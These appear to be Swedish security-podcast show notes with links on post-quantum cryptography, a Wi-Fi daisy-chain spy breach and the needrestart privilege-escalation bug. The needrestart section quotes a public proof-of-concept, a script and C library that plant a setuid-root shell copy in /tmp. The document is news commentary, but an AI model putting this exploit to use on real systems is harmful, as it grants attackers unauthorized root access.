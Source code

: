 Länkar:
* [Säkerhetspodcasten avs.120 - Om kvantumkalabalik med Jonathan Jogenfors](https://sakerhetspodcasten.se/posts/sakerhetspodcasten-avs-120-om-kvantumkalabalik-med-jonathan-jogenfors/)
> I dagens avsnitt intervjuas Jonathan Jogenfors om kvantkryptering, kvantdatorsäker kryptering
> (“PQC” Post Quatum Cryptography) och hans twitter-bråk med Quantum1Net.
> I början av podcasten nämner vi synpunkter som vi har fått ta del av från Quantum1Net.
* [ICOARM: quantum1nen Q1S](https://icoarm.com/ico/quantum1net/)
* [Facebook: quantum1net](https://www.facebook.com/quantum1net)
* [github.com/quantum1net](https://github.com/quantum1net)

## WiFi hoppandes spioner

Ryska spioner påstås hoppa via olika grannars nät för att komma inom räckvidd för WiFi-hacking av mål.

Länkar:
* [Wired: Russian Spies Jumped From One Network to Another Via Wi-Fi in an Unprecedented Hack](https://www.wired.com/story/russia-gru-apt28-wifi-daisy-chain-breach/)

## Needsrestart

Ubuntu varit helt osäkert i 10 år!

`needsrestart` hade lätt att missbruka local privligie eskalering från `user` till `root`.

Root äter `PYTHONPATH` från user processer och kör user-processernas `constructor`...

Lite pinsamt fel?

* [Qualys Security Advisory: LPEs in needrestart (CVE-2024-48990, CVE-2024-48991, CVE-2024-48992, CVE-2024-10224, and CVE-2024-11003)](https://www.qualys.com/2024/11/19/needrestart/needrestart.txt)
* [Low Level: this vulnerability has been hiding for 10 years.](https://www.youtube.com/watch?v=CDtIS8XaJDY) - `video`
* [Brodie Robertson: Ubuntu's Decade Long Privilege Escalation Bug](https://www.youtube.com/watch?v=0OXcJ5uAdQg) - `video`
* [github.com/liske/needrestart](https://github.com/liske/needrestart)
* [github.com/makuga01/CVE-2024-48990-PoC](https://github.com/makuga01/CVE-2024-48990-PoC)

``` bash
# makuga01/CVE-2024-48990-PoC/start.sh
gcc -shared -fPIC -o "$PWD/importlib/__init__.so" lib.c
PYTHONPATH="$PWD" python3 e.py
```

``` c
// makuga01/CVE-2024-48990-PoC/lib.c
static void a() __attribute__((constructor));
void a() {
 setuid(0);
 setgid(0);
 const char *shell = "cp /bin/sh /tmp/poc; chmod u+s /tmp/poc &";
 system(shell);
}
```
